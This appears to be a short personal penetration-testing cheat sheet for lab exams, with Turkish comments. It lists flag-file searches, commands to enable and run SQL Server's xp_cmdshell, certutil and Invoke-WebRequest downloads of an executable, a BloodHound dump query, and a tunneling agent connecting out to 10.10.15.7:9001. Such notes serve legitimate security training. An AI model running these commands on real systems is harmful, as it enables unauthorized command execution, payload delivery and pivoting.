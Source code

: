 # Flag Finderz

- find / "local.txt" 2>/dev/null | grep "local.txt"
- find / "proof.txt" 2>/dev/null | grep "proof.txt"
- dir C:\ /s /b | findstr "local.txt"
- dir C:\ /s /b | findstr "proof.txt"


# xpcmdshell

-- SQL Server'da xp_cmdshell özelliğini aktif etmek

- EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
- EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;

-- xp_cmdshell ile whoami komutunu çalıştırmak
- EXEC xp_cmdshell 'whoami';


# Python Web Server

- python3 -m http.server 8000

# Python Virtual Environment

- python3 -m venv myenv
- source myenv/bin/activate
- pip install -r requirements.txt

# BloodHound All Datas

- MATCH (n)-[r]->(m)
- RETURN n, r, m

certutil -urlcache -split -f "http://example.com/file.exe" file.exe

Invoke-WebRequest -Uri "http://example.com/file.exe" -OutFile "file.exe"

./agent -connect 10.10.15.7:9001 -ignore-cert
